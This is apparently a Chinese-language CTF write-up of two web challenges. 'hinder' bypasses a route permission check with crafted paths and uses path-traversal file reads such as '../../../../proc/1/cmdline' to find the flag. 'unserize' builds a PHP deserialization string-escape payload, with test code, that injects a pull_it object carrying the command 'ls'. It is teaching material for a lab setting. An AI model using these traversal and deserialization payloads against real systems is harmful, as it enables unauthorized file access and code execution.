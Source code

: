 自己参赛的，但是纯纯坐大牢。

## hinder
就是说当时一点想法也没有，上来直接permission denied...
没权限可能是由于路由被拦截，因此只要构造不符合条件的路由即可：
```
//hinder/
```
如果存在目录穿越则还可以
```
/a/../hinder/
```
然后在返回网页的注释处发现hint`/download.action?filename=hint`，任意文件读取。

这里直接拼在hinder/后面，`/a/../hinder/download.action?filename=../../../../../../../proc/1/cmdline/`，发现`/bin/sh/run.sh`。
但是读`/a/../hinder/download.action?filename=../../../../../../../bin/sh/run.sh`读不出，
直接读``/a/../hinder/download.action?filename=../../../../../../../run.sh`发现flag路径，读取即可。

## unserize
当时盲猜一手源码www.zip，真下载到了。当时感觉函数aaaa<->bbbbbb感觉是php反序列化字符串逃逸，但是不知道怎么利用。当时的想法是，利用a和b让push_it的session反序列化变成pull_it。
但是还是too naive，怎么可能，totally wrong。

反序列化构造payload时一切属性都可以设置为public。利用function中两个过滤函数中任意一个都行，root参数传入一堆a/b，通过过滤器后造成长度变短/变长。pwd传入构造好的反序列化字符串。

做个测试：
```
<?php
function b($data) {
	return str_replace('aaaa', 'bbbbbb', $data);
}

function a($data) {
	return str_replace('bbbbbb', 'aaaa', $data);
}
class pull_it {
	public $x;
}
class push_it {
	public $root;
	public $pwd;
}

$a = new push_it();
$a->root = "bbbbbbbbbb";
$a->pwd = "wwwwwwwwww";
echo(serialize($a));
echo("\n\n");  
// O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";s:10:"wwwwwwwwww";}

$a->pwd = new pull_it();
$a->pwd->x = "xxxxxxxx";
echo(serialize($a));    
echo("\n\n");  
// O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:8:"xxxxxxxx";}}

$s = 'O:7:"push_it":2:{s:4:"root";s:10:"bbbbbbbbbb";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:8:"xxxxxxxx";}}';
echo(unserialize($s)->pwd->x);
echo("\n\n");  
// xxxxxxxx


?>
```

用a过滤器，每6个bbbbbb会吞掉2个字符变成4个aaaa，要把后面的`";s:3:"pwd";s:xx:`也吞掉，总共吞17个字符，由于不是偶数，因此再多吞冒号后的一个引号，总共吞18个字符，
需要9*6=54个b，pwd用于构造pull_it的payload，具体如下：
```
function a($data) {
	return str_replace('bbbbbb', 'aaaa', $data);
}
class pull_it {
	public $x;
}
class push_it {
	public $root;
	public $pwd;
}

$aa = new push_it();
$aa->root = "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";
$aa->pwd = '";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}';
echo(a(serialize($aa)));    
echo("\n\n"); 
// O:7:"push_it":2:{s:4:"root";s:54:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}";}

$s = 'O:7:"push_it":2:{s:4:"root";s:54:"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:"";s:3:"pwd";O:7:"pull_it":1:{s:1:"x";s:2:"ls";}}";}';
var_dump(unserialize($s));
// object(push_it)#2 (2) {
//   ["root"]=>
//   string(54) "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";s:3:"pwd";s:48:""
//   ["pwd"]=>
//   object(pull_it)#4 (1) {
//     ["x"]=>
//     string(2) "ls"
//   }
// }


?>
```
